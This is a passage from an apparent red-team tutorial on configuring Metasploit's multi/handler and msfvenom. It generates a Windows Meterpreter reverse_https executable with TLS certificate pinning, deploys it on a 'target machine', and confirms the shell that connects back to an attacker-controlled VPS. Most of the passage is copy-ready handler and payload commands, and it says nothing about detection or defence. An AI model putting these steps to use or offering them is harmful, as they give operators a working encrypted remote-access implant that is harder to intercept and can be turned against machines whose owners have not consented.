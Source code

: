 1. **Start Metasploit:**

   ```bash
   msfconsole
   ```

2. **Set up the multi/handler with the SSL options:**

   ```plaintext
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_https
   set LHOST your_vps_ip
   set LPORT 443
   set HandlerSSLCert /path/to/meterpreter.pem
   set StagerVerifySSLCert true
   set StagerHost your_vps_ip
   set ExitOnSession false
   exploit -j
   ```

Make sure to replace `/path/to/meterpreter.pem` with the actual path to your PEM file and `your_vps_ip` with your Metasploit server IP address.

#### Step 4: Generate the Meterpreter Payload

Generate the payload to use the pinned certificate:

```plaintext
msfvenom -p windows/meterpreter/reverse_https LHOST=your_vps_ip LPORT=443 HandlerSSLCert=/path/to/meterpreter.pem StagerVerifySSLCert=true -f exe -o /path/to/meterpreter_payload.exe
```

Make sure to replace `your_vps_ip`, `443`, `/path/to/meterpreter.pem`, and `/path/to/meterpreter_payload.exe` with your actual values.

#### Step 5: Deploy the Payload

Deploy the generated payload (`meterpreter_payload.exe`) on the target machine.

#### Step 6: Verify the Connection

When the payload is executed on the target machine, it should connect back to the Metasploit listener using the specified SSL certificate. The connection will only be established if the certificate matches, ensuring that the communication is secure.

### Tips and Considerations

- **Certificate Validity**: Ensure that your certificate is valid and not expired. Self-signed certificates might need to be re-generated periodically.
- **PEM File Permissions**: Secure your PEM file with appropriate file permissions to prevent unauthorized access.
- **Verify Connections**: Regularly verify that your connections are using the correct certificate and are secure.

By following these steps, you can implement TLS certificate pinning in Meterpreter, enhancing the security of your communication and reducing the risk of MITM attacks during your engagements.

